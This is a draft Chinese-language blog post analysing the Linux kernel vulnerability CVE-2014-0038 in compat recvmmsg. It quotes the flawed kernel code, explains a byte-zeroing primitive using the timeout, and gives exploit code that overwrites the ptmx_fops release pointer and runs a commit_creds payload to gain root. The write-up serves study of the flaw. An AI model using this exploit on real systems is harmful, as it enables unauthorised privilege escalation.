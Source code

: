 +++
title = "CVE-2014-0038"
date = "2014-04-16"
tags = ["socket", "security", "networking"]
categories = ["Blog"]
draft = true
+++

利用漏洞将 ``ptmx_fops`` 返回函数的高字节置零，让它指向payload。然后payload在被kernel执行，调用 ``commit_cred`` 获取root。

# Vulnerability

```c
asmlinkage long compat_sys_recvmmsg(int fd, struct compat_mmsghdr __user *mmsg, unsigned int vlen, unsigned int flags, struct compat_timespec __user *timeout)
{
  int datagrams;
  struct timespec ktspec;
  
  if (flags & MSG_CMSG_COMPAT)
    return -EINVAL;
  
  if (COMPAT_USE_64BIT_TIME)
    return __sys_recvmmsg(fd, (struct mmsghdr __user *)mmsg, vlen,
      flags | MSG_CMSG_COMPAT,
      (struct timespec *) timeout);
  ...
```
        
``timeout`` 是从userland传过来的指针，随后被直接（只做了cast ``(struct timespec *) timeout`` ）传给系统调用 ``__sys_recvmmsg`` 。

- Why ``CONFIG_X86_X32`` is mandatory?


```c
struct timespec {
  __kernel_time_t tv_sec;     /* seconds */
  long    tv_nsec;    /* nanoseconds */
};
typedef __kernel_long_t __kernel_time_t;
```

``__sys_recvmmsg`` 中有两处修改了 ``void *timeout`` .

- 读取 ``timeout``

```c
if (timeout && 
        poll_select_set_timeout(&end_time, timeout->tv_sec,
          timeout->tv_nsec))  // READ ONLY, end_time = timeout
  return -EINVAL;
```
- 更新 ``timeout``

```c
if (timeout) {
  ktime_get_ts(timeout);                         // get now
  *timeout = timespec_sub(end_time, *timeout);   // A - B
  if (timeout->tv_sec < 0) {                     // if timeout really happens
    timeout->tv_sec = timeout->tv_nsec = 0;
    break;                                     // return
  }

  /* Timeout, return less than vlen datagrams */
  if (timeout->tv_nsec == 0 && timeout->tv_sec == 0)
    break;
}
```

所以返回前将 ``timeout->tv_sec = timeout->tv_nsec = 0;``

## 清除一个字节的过程

1. 主进程 ``retval = syscall(__NR_recvmmsg, sockfd, &msgs, 1, 0, (void*)addr)``; 其中 ``addr & 0xFF == 0xFF``
2. 子进程 ``sleep(254)`` 然后 sendto
3. 因为父进程调用 ``recv`` 长达254s之后子进程才发送，所以父进程的调用 ``__NR_recvmmsg`` 会超时
4. 超时发生时，``addr`` 被写 ``0``，然后返回。

# 获取root

- 利用了 ``ptmx_fops`` 的release function指针（在non initialized (and thus writable) kernel memory中） 
- 将指针的高3字节置0，使之指向用户空间中的payload
- Open ``/dev/ptmx``, close it and enjoy.

## payload构造


```c
// code 是payload地址
code = (long)mmap((void*)(TTY_RELEASE & 0x000000fffffff000LL), PAYLOADSIZE, 7, 0x32, 0, 0);
// 0x90 技法
memset((void*)code, 0x90, PAYLOADSIZE);
code += PAYLOADSIZE - 1024;
memcpy((void*)code, &kernel_payload, 1024);

// payload 构造
#define COMMIT_CREDS        0xffffffff8108ad40LL
typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);

kernel_payload(void* foo, void* bar)
{
    _commit_creds commit_creds = (_commit_creds)COMMIT_CREDS;
    _prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred)PREPARE_KERNEL_CRED;

    /* restore function pointer and following two longs */
    *((int*)(PTMX_FOPS + FOPS_RELEASE_OFFSET + 4)) = -1;
    *((long*)(PTMX_FOPS + FOPS_RELEASE_OFFSET + 8)) = 0;
    *((long*)(PTMX_FOPS + FOPS_RELEASE_OFFSET + 16)) = 0;

    /* escalate to root */
    commit_creds(prepare_kernel_cred(0));

    return -1;
}
```
    
# 疑问

1. 为什么 ``zero_out`` 只置零1个字节，而不是一个 ``long`` (16 bytes)？
